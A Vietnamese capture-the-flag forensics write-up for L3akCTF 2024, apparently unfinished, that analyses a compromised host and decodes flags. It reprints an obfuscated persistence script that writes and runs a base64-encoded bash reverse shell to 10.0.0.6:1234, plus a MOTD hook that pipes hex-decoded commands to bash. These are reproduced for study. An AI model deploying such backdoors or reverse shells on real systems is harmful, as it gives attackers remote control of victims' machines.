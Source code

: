 ```
ArcaneGate_PATH=$(echo "$ENCODED_ArcaneGate_PATH" | base64 --decode)
ArcaneGate_BASE64='IyEvYmluL2Jhc2gKL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC42LzEyMzQgMD4mMQo='

# Check if the ArcaneGate script exists, if not, recreate it from the Base64 string
if [ ! -f "$ArcaneGate_PATH" ]; then
    echo "ArcaneGate script not found, recreating..."
    echo "$ArcaneGate_BASE64" | base64 --decode > "$ArcaneGate_PATH"
    chmod +x "$ArcaneGate_PATH"
fi

# The Specter that Steers Your Spirit
## In the shadowed alcoves of ancient libraries where the whispers of the past linger like morning fog,
## there lies a tome, bound not in leather but in the mysteries of the ether itself.
## The first chapter, "The Specter that Steers Your Spirit," reveals how one may
## summon and commune with the ghostly essences that drift through the veils of our world. 
## TDNha3tyY19sMGM0bF8wbl9iMDB0fQ==

# Execute the ArcaneGate script
"$ArcaneGate_PATH"

exit 0

```
> Flag thứ 3 : TDNha3tyY19sMGM0bF8wbl9iMDB0fQ== ==[from base64]==> L3ak{rc_l0c4l_0n_b00t}
- Đoạn script này khiến em dừng lại phân tích 1 tí 
- Biến `ArcaneGate_PATH` chứa vị trí tệp thực thi được decode base64 từ chuỗi "L3RtcC9iYWNrZ...." (/tmp/backdoor.sh)
Biến `ArcaneGate_BASE64` tạo 1 kết nối Reverse shell đến  10.0.0.6/1234 (/bin/bash -i >& /dev/tcp/10.0.0.6/1234 0>&1)
- Backdoor script này sẽ mở một kết nối shell đảo ngược (reverse shell) tới địa chỉ IP `10.0.0.6` trên cổng `1234`, cho phép kẻ tấn công điều khiển hệ thống từ xa.
```
MOTD là viết tắt của Message of The Day, là thông báo được hiển thị cho người dùng khi họ SSH vào hệ thống. Nó được cấu hình trong thư mục /etc/update-motd.d/ và các tác nhân đe dọa có thể đặt các lệnh tùy ý vào bất kỳ tệp nào được liệt kê ở đó.
```
```

echo '2f746d702f6261636b646f6f722e73682026' | xxd -r -p | bash
# echo '4c33616b7b35683331315f30665f3768335f4434797d0a' | xxd -r -p

```
> Flag 4 : 4c33616b7b35683331315f30665f3768335f4434797d0a ==[from hex]==> L3ak{5h311_0f_7h3_D4y}

............Chỉ được 4 flag............... Chưa xong




## Tham khảo
> https://0xmr8anem.medium.com/l3akctf-2024-forensics-writeups-3b5575f07cba

> https://warlocksmurf.github.io/posts/l3akctf2024/
